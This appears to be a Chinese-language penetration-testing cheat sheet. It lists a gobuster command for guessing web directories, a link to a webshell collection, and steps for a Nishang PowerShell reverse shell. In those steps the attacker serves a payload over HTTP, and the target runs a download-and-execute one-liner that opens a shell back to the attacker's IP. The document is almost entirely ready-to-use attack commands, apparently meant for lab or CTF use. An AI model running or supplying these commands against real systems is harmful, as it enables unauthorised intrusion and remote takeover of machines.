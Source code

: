 # 1、web目录猜解

```bash
gobuster -w directory-list-2.3-medium.txt -t 100 -u http://10.10.10.10/
```

# 2、webshell合集

https://github.com/tennc/webshell

# 3、Nishang

powershell反弹shell

本机上执行：
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.11 -Port 443' >> Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```
靶机上执行：

```bash
Powershell -c iex(new-object net.webclient).downloadstring('http://10.10.10.11/Invoke-PowerShellTcp.ps1’)

```
